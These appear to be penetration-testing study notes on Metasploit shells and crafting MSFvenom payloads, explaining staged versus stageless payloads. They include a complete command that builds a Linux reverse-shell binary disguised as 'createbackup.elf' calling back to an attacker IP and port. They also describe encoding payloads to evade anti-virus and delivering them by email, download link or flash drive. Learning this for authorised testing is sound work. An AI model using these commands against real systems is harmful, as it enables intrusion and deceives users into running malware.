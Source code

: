  use the shell command to drop into a system-level shell if we need to work with the complete set of system commands native to our target.

 __Interactive shell__
```
shell
```
## Crafting Payloads with MSFvenom
To run an exploit, deliver the payload, and establish a shell, we need network communication with the target. This might be through an internal network or a route into the target's network. However, if direct access isn't possible, we can use creative methods like MSFvenom to craft a payload and deliver it via email or social engineering, tricking the user into executing it.
MSFvenom also allows us to encrypt & encode payloads to bypass common anti-virus

__List Payloads__ 
```
msfvenom -l payloads
```
### Staged vs. Stageless Payloads

**Staged Payloads**: Staged payloads send a small initial stage that sets up the target and then downloads the rest of the payload over the network. For example, the linux/x86/shell/reverse_tcp payload works this way. The small stage contacts the attack box to fetch the full payload and establish a reverse shell. You need to configure IPs and ports for the listener to catch the shell. Keep in mind, staged payloads use memory for the stage, leaving less for the payload itself. They might be less suitable for environments with limited bandwidth.

**Stageless Payloads**: Stageless payloads send the entire payload in one go, without an initial stage. For example, linux/zarch/meterpreter_reverse_tcp is a stageless payload. This can be advantageous in low-bandwidth environments where staged payloads might be unstable. Stageless payloads also tend to be better for evasion as they generate less network traffic.

__Differentiate between staged and stageless__
The name will give you your first marker. Take our examples from above, linux/x86/shell/reverse_tcp is a staged payload, and we can tell from the name since each / in its name represents a stage from the shell forward. So /shell/ is a stage to send, and /reverse_tcp is another.  It is similar to the staged payload except that it specifies the architecture it affects, then it has the shell payload and network communications all within the same function /meterpreter_reverse_tcp. 

__Building A Stageless Payload (Linux)__
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
-p is creating payload. LHOST, LPORT is Address To Connect Back To host. -f flag specifies the format the generated binary will be in. 

__Executing a Stageless Payload__
Getting the Payload to the Target System
Once the payload is created, it needs to be delivered to the target system. Common methods include:

- **Email**: Attach the payload file to an email message.
- **Download Link**: Provide a link on a website for the user to download the payload.
- **Metasploit Exploit Module**: Use this method if you already have internal network access.
- **Flash Drive**: Physically deliver the payload during an onsite penetration test.
